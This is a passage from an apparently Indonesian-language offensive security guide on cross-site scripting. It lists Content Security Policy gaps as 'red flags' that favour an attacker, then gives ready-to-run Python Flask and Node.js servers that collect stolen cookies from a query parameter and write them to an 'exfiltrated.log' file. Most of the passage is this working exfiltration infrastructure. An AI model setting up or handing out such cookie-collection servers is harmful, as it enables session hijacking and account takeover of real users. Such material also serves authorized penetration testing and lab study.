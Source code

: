 **Red Flags untuk Attacker (Good News):**
- ✅ `script-src 'unsafe-inline'` → XSS execution possible
- ❌ Missing `form-action` → Form exfiltration possible
- ❌ Missing `navigate-to` → Navigation exfiltration possible

---

### 7️⃣ Server Setup untuk Exfiltration

#### Simple Python Flask Server
```python
from flask import Flask, request
from datetime import datetime

app = Flask(__name__)

@app.route('/')
def log_exfil():
    cookie = request.args.get('c', 'No cookie')
    ip = request.remote_addr
    timestamp = datetime.now().strftime('%Y-%m-%d %H:%M:%S')
    
    log_entry = f"[{timestamp}] IP: {ip} | Cookie: {cookie}\n"
    
    with open('exfiltrated.log', 'a') as f:
        f.write(log_entry)
    
    print(f"[+] Exfiltrated: {cookie}")
    
    # Return empty response
    return '', 204

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)
```

#### Simple Node.js Server
```javascript
const express = require('express');
const fs = require('fs');
const app = express();

app.get('/', (req, res) => {
    const cookie = req.query.c || 'No cookie';
    const ip = req.ip;
    const timestamp = new Date().toISOString();
    
    const logEntry = `[${timestamp}] IP: ${ip} | Cookie: ${cookie}\n`;
    
    fs.appendFileSync('exfiltrated.log', logEntry);
    console.log(`[+] Exfiltrated: ${cookie}`);
    
    res.status(204).send();
});

app.listen(80, '0.0.0.0', () => {
    console.log('Exfiltration server running on port 80');
});
```
